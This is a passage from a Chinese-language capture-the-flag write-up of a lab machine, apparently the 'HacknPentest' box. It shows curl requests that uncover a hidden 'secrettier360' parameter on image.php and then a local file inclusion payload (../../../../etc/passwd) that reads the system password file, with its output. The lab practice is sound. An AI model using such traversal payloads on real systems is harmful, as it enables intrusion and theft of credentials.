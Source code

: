 试了试image.php?file也还是不行（`思路全无`）

`看了看✌们的wp，就差一点上面我们不是获得了location.txt嘛，这里直接file=location.txt`

```java
└─# curl http://192.168.52.138/index.php?file=location.txt
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" />
</body>

Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
</html>
 使用secrettier360参数，对每一个页面，image index 
```

`最后你获得了正确的参数，啊不理解啥也没给我呀（而且这个也不是密码）`

```java
                                                                                                                   ┌──(root㉿node1)-[/home/kali]
└─# curl http://192.168.52.138/image.php?secrettier360
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br></html
```

`又去看了看，发现都说了正确的参数（普通web给你个？file=你都能测../../etc/passwd为啥这里不测呢）`

直接

```java
curl http://192.168.52.138/image.php?secrettier360=../../../../etc/passwd
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
guest-s0wb1i:x:999:999:Guest:/tmp/guest-s0wb1i:/bin/bash
    /home/saket有密码
```

![image-20231007163123330](..\img\final\image-20231007163123330.png)
